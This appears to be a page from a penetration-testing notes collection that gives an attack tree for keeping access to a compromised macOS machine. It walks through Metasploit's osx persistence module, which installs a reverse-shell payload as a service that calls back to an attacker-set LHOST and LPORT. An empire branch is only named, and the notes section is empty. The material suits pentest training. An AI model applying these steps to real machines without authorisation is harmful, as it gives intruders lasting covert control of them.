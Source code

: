# Maintaining access on macOS

## Attack tree

```text
1 Maintain access on macOS using meterpreter
    1.1 In meterpreter background the current basic shell (AND)
    1.2  > use exploit/osx/local/persistence (AND)
    1.3 Set RUN_NOW to true (AND)
    1.4 Set SESSION to the id of the basic shell just put in the background (AND)
    1.5 > show payloads (AND)
    1.6 Inject payload (such as osx/x86/shell_reverse_tcp) as a service with > set PAYLOAD [payload] (AND)
    1.7 Set LHOST and LPORT
    1.8 > exploit
    1.9 Copy the three commands given for cleanup later
1 Maintain access on macOS using empire
```

## Notes

## Cheatsheets

* [Linux post exploitation enumeration](cheatsheets:docs/enumeration/linux-post)
* [Offensive security: Meterpreter Basic Commands](https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/)
* [Metasploit documentation](https://docs.metasploit.com/)